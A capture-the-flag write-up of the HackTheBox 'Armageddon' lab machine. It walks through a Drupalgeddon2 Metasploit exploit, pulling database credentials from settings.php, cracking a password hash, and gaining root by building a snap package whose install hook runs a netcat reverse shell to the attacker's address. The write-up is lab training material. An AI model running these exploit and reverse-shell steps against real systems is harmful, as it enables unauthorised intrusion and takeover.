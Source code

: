 ```yaml
---
layout: post
title: "Armageddon"
date: 2022-03-06
categories: [HackTheBox, Easy-HTB]
tags: [Metasploit, Drupal, hash-cracking , fpm, snap, CMS Exploit, Password Reuse, CVE, Weak Password]
image: ../../assets/img/posts/Armageddon.png

---
```


|**Machine**|[Armageddon](https://app.hackthebox.com/machines/323)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[bertolis](https://app.hackthebox.com/users/27897)|

---

We'll start with connecting to HTB network by making connection with .ovpn file and then spin up machine

This box's IP is **10.10.10.233**.

Let's start with nmap scan,

```bash
sudo nmap -A -T4 -p- 10.10.10.233 -oN nmap_scan
```

![image](https://user-images.githubusercontent.com/67465230/156897876-eb19ab18-da41-4fe2-ac34-8dd430fb00cc.png)

there are ports open, i.e. 22 (SSH), 80 (HTTP) and there are many things which we can check on port 80.

Let's view what technologies are running on website,

```bash
whatweb http://10.10.10.233
```

![image](https://user-images.githubusercontent.com/67465230/156897957-62eebef3-d877-46a8-a0fc-87c1c87ad6b7.png)

This website is running a software named **Drupal v7**. 

Let's visit http://10.10.10.233,

![image](https://user-images.githubusercontent.com/67465230/156897974-ed406154-4771-4f4d-b7b2-98e698156662.png)

seems like we got a login page. 

Let's brute force directories using dirsearch,

```bash
python3 /home/kali/tools/dirsearch/dirsearch.py -e txt,php -i 200,301
```

![image](https://user-images.githubusercontent.com/67465230/156897985-31d5b92a-bc5c-4829-81fa-99e78fd61eab.png)

there are many files and directories. Let's check **/robots.txt** file,

we got many files after visiting **/robots.txt** path and there's a path which seems interesting to me,

![image](https://user-images.githubusercontent.com/67465230/156897992-c5bae27e-9983-4084-9b78-1a1b64722511.png)

**/CHANGELOG.txt** path stands out. Let's check it,

this **/CHANGELOG.txt** file reveals the Drupal Software current running version which is 7.56,

![image](https://user-images.githubusercontent.com/67465230/156898002-bfee473e-4edb-4ef3-b2ea-f1cc6b54cfe7.png)

Let's now search for this Drupal v7.56 exploit,

```bash
searchsploit drupal 7.56
```

![image](https://user-images.githubusercontent.com/67465230/156898017-21b2129b-74df-4bfe-90fa-4cf98be0e460.png)

**Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' RCE (Metasploit)**

We got Drupalgeddon metasploit module, we'll use this. Let's fire up metasploit-framework using `msfconsole -q` and search for **drupalgeddon**,

```bash
search Drupalgeddon
```

![image](https://user-images.githubusercontent.com/67465230/156898025-3f1fa59f-b04c-4d08-97c5-d427af6287ba.png)

we got this module. Let's use this to exploit this box.

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
```

![image](https://user-images.githubusercontent.com/67465230/156898033-eca7124e-f282-4c43-bef4-baa08a208d0a.png)

then we'll set options:
- **set rhosts 10.10.10.233**
- **set lhost tun0**
- **set lport 4444**

Then run this exploit using `run` command,

![image](https://user-images.githubusercontent.com/67465230/156898038-943d10b5-af34-40f8-b13c-ccc1266a2f2a.png)

we'll get **meterpreter session** and we can confim this using **sysinfo** command.

Let's have a shell now and we'll get a shell with `shell` command,

![image](https://user-images.githubusercontent.com/67465230/156898047-10b7e959-06fe-402f-a090-39202facfc77.png)

and we'll improve shell's functionality with `/bin/bash -i` command.

after enumeration, I found a file in **/var/www/html/sites/default/** that contains username and password hash of the user. 

```bash
pwd
ls -la
```

![image](https://user-images.githubusercontent.com/67465230/156898055-278bc92d-383d-4de5-b5b3-c8e61e98ccc7.png)

Let's check it.

```bash
cat settings.php
```

![image](https://user-images.githubusercontent.com/67465230/156898095-84051b89-1dea-470e-bc3a-70dd6609ea26.png)

after scrolling down a bit, I found mysql credentials.

Let's now query with DB to let us have credentials with this command,

```bash
mysql -u drupaluser -p<pass_hash> -e "use drupal;select * from users\G;"
```

![image](https://user-images.githubusercontent.com/67465230/156898110-c824da96-093c-47f2-a9e8-a22682425b09.png)

it'll give us username and password hash of the user. Let's now crack it with **JohnTheRipper** cracking tool.

Let's first create a file named **hash** with `touch` command and copy the password to hash file. 

We can crack this hash using JTR,

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/156898121-a5a4fa65-4081-4900-9de9-937381b43da9.png)

We got cracked password of the user.

Let's connect to ssh,

```bash
ssh brutetherealadmin@10.10.10.233
```

![image](https://user-images.githubusercontent.com/67465230/156898126-8cbf4fb6-23b8-48d0-afa8-6a12a892db55.png)

And we also got ssh access of the user. 

Establishing directory content,

![image](https://user-images.githubusercontent.com/67465230/156898132-101ea0cf-70a7-42c2-b997-9906375e2327.png)

AHA! User flag. 

It's time for **Privilege Escalation**. Let's check if we can run binaries with `sudo` command without providing password,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/156898165-a32dc801-be3c-41ae-aaad-aaa5780a2624.png)

we can run **/usr/bin/snap** binary as **sudo**. Let's first get to know about snap,

>Snap is a software packaging and deployment system developed by Canonical for operating systems that use the Linux kernel.

let's us first know what version of snap is running on box,

```bash
snap --version
```

![image](https://user-images.githubusercontent.com/67465230/156898179-d3866753-f254-498a-a187-95f8c542898f.png)

Let's search this snap binary on how we can exploit it to get system access on **GTFObins**.

![image](https://user-images.githubusercontent.com/67465230/156898191-9967689c-24db-4b78-8802-15af0a2cd0ab.png)

This seems like we've to follow along these commands on our own machine and then transfer the final package to box in order too get root.

We've to make this package using **fpm** tool, so make sure to read this documentation https://fpm.readthedocs.io/en/latest/ on fpm about what it is, how it works, installation etc.

Let's first navigate to **/tmp** directory on our own machine and type these commands,

```bash
COMMAND="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 4444 >/tmp/f"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

![image](https://user-images.githubusercontent.com/67465230/156898197-c449a26a-4245-4a0c-a081-4fa5291ff45d.png)

after running all of these commands, our package is now ready to get transferred.

**NOTE: When declaring COMMAND var, we'll put a netcat reverse shell there to get us a reverse connection on new terminal window.**

Let's start python server using `python3 -m http.server` command and transfer this **xxxx_1.0_all.snap** package on machine,

first let's navigate to **/tmp** directory on remote box and then download the package on the machine,

```bash
curl http://10.10.14.24:8000/xxxx_1.0_all.snap > xxxx_1.0_all.snap
```

Now, let's start a netcat listener on new terminal window using `nc -nvlp 4444` and run this package on remote box using this command,

```bash
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

![image](https://user-images.githubusercontent.com/67465230/156898232-f2cf8f7b-310b-4c59-87df-92a7950af363.png)

when this command gets executed then we'll get a reverse connection on our netcat listener,

![image](https://user-images.githubusercontent.com/67465230/156898241-6070975d-984d-4b72-91b5-5a7d3a1c4d26.png)

we've now system access!! Let's confirm it with `id` command. We have rooted this box. 